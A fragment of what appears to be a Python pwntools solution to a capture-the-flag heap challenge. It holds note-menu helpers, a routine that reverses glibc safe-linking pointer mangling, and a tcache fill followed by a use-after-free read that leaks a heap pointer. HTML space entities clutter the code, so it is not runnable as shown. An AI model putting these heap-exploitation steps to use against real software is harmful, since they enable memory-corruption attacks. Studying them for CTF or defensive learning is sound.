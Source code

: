 ```python
&nbsp;   leak = p.recvline().strip()

&nbsp;   return leak



def update(idx, data):

&nbsp;   p.sendline(b'3')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())

&nbsp;   p.sendafter(b'data: ', data)



def delete(idx):

&nbsp;   p.sendline(b'4')

&nbsp;   p.sendlineafter(b'idx: ', str(idx).encode())



def decrypt(cipher):

&nbsp;   key = 0

&nbsp;   plain = 0



&nbsp;   for i in range(1, 6):

&nbsp;       bits = 64-12*i

&nbsp;       if bits < 0:

&nbsp;           bits = 0

&nbsp;       plain = ((cipher ^ key) >> bits) << bits

&nbsp;       key = plain >> 12



&nbsp;   return plain



for _ in range(7):

&nbsp;   create(9, 0x30, b'a')

&nbsp;   delete(9)



leak = read_note(9)

cipher = u64(leak.ljust(8, b'\x00'))

print('leak : ', hex(cipher))
```